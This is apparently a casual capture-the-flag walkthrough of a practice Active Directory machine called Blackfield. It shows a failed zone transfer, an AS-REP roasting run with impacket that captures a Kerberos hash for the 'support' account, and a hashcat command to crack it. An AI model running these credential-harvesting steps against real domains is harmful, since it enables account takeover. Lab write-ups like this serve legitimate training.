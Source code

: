 wow! that is a lot of profiles! no shot i am going through every single one lmfao
lets think of something clever to do....
i looked thru it and looks like audit2020, svc_backup, support could be jackpots but the dirs are empty... we move on....

i tried a zone transfer:
```
dig axfr @10.10.10.192 blackfield.local

; <<>> DiG 9.20.7-1-Debian <<>> axfr @10.10.10.192 blackfield.local
; (1 server found)
;; global options: +cmd
; Transfer failed.
```

but as u can see it fails...
ill try kerberoasting see if i can get into an account with no auth required...:
```
impacket-GetNPUsers blackfield.local/ -dc-ip 10.10.10.192 \
  -usersfile profiles.txt -no-pass \
  -format hashcat -outputfile asrep.hashes
```

holy smokes!
```
...
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$support@BLACKFIELD.LOCAL:b53164c9a0ae5a16f681c5f59ee0867c$32f1fd3bbe4953de28530ff1f2c8e12ddae0e15e08a3266218e146fc57d0a815aa83611cf66d20115928d92159ad44a842370f40faa0405dba0c7a8a78ec27f71a8bfb9e1d60e1fc4a1a059b0940f4933a70d37dbf4e6d875fba8358459eaf88e8fd6670c127680ad8c7d3d29ff98c1865ddf43ed54416692e1e66a7500bba6ba46a52f5ed9909ce0cc9426bb538ea7c1a3f8c0a1762c810f5a7ed1a24598b991ad241cf1f8ff16fe34ae6e05c7f15c95288d79ff0f6a6f21130700823d5ac9c1bcc3035f81c0d6fd8ac4c00d484f8641fea808955ca52bf490f789bd6d8d7ecb84a97f39a730cfd806a75eb51f780fb63d6e4d2
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in K
...
```

as you can see we got one! support!
```
cat asrep.hashes                                           
$krb5asrep$23$support@BLACKFIELD.LOCAL:b53164c9a0ae5a16f681c5f59ee0867c$32f1fd3bbe4953de28530ff1f2c8e12ddae0e15e08a3266218e146fc57d0a815aa83611cf66d20115928d92159ad44a842370f40faa0405dba0c7a8a78ec27f71a8bfb9e1d60e1fc4a1a059b0940f4933a70d37dbf4e6d875fba8358459eaf88e8fd6670c127680ad8c7d3d29ff98c1865ddf43ed54416692e1e66a7500bba6ba46a52f5ed9909ce0cc9426bb538ea7c1a3f8c0a1762c810f5a7ed1a24598b991ad241cf1f8ff16fe34ae6e05c7f15c95288d79ff0f6a6f21130700823d5ac9c1bcc3035f81c0d6fd8ac4c00d484f8641fea808955ca52bf490f789bd6d8d7ecb84a97f39a730cfd806a75eb51f780fb63d6e4d2
```
that’s an **AS-REP roast** hash so well use hashcat code 18200
```
hashcat -m 18200 asrep.hashes /usr/share/wordlists/rockyou.txt --force
```
